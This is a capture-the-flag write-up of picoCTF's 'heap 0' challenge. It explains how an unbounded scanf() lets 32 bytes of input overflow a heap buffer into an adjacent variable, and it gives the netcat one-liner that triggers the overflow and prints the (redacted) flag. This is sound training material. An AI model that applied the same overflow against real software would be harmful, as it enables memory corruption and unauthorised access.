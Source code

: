 # heap 0 #
 
## Overview ##

50 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap`

## Description ##

Are overflows just a stack concern?

## Approach ##

Inspecting the provided `chall.c` source file, we can see in `check_win()` that we need heap variable `safe_var` to not equal `bico` (the value initialised within the `init()` function) to dump the contents of the flag file to standard output.

Global variables are;

    int num_allocs;
    char *safe_var;
    char *input_data;

Where `safe_var` and `input_data` are allocated from the heap via `malloc()` with the sizes;

    // amount of memory allocated for input_data
    #define INPUT_DATA_SIZE 5
    // amount of memory allocated for safe_var
    #define SAFE_VAR_SIZE 5

Running the program the addresses of these allocated buffers are conveniently shown:

    $ ./chall

    Welcome to heap0!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x5e36fb3416b0  ->   pico
    +-------------+----------------+
    [*]   0x5e36fb3416d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 

Using the memory addresses displayed we can see the `safe_var` buffer is located 32 bytes after the `input_data` buffer (`0xD0 - 0xB0 = 32`). Therefore with the unbounded `scanf()` within `write_buffer()` to the `input_data` buffer we can overflow this buffer and write into the `safe_var`, modifying its contents so it no longer contains `pico`.

## Solution ##

The final solution to write 32 `'A'`s and then execute the "Print Flag" menu item, this will overflow the the start of `safe_var` with the null termination from our 32 character input string :

    $ echo $(python3 -c 'print("2\n" + "A"*32 + "\n4\n")') | nc tethys.picoctf.net 54775

    Welcome to heap0!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x556daa9862b0  ->   pico
    +-------------+----------------+
    [*]   0x556daa9862d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: Data for buffer: 
    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 
    YOU WIN
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.